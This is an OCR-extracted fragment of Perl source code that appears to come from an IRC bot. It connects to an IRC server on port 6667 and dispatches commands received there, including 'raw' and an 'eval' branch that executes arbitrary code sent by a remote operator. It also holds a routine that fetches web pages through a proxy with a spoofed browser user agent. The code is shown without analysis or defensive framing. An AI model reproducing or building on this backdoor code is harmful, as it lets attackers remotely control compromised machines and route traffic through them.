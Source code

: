       nick("$1"); 

   } 

  

   if ($case =~ /^connect\s+(\S+)\s+(\S+)/) { 

      conectar("$2", "$1", 6667); 

   } 

  

   if ($case =~ /^raw (.*)/) { 

      sendraw("$1"); 

   } 

  

   if ($case =~ /^eval (.*)/) { 

      eval "$1"; 

   } 

} 

  

sub get_html() { 

$test=$_[0]; 

  

      $ip=$_[1]; 

      $port=$_[2]; 

  

my $req=HTTP::Request->new(GET=>$test); 

my $ua=LWP::UserAgent->new(); 

if(defined($ip) && defined($port)) { 

      $ua->proxy("http","http://$ip:$port/"); 

      $ua->agent("Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"); 

} 

$ua->timeout(1); 

my $response=$ua->request($req); 

if ($response->is_success) { 

   $re=$response->content; 

} 

return $re; 

} 
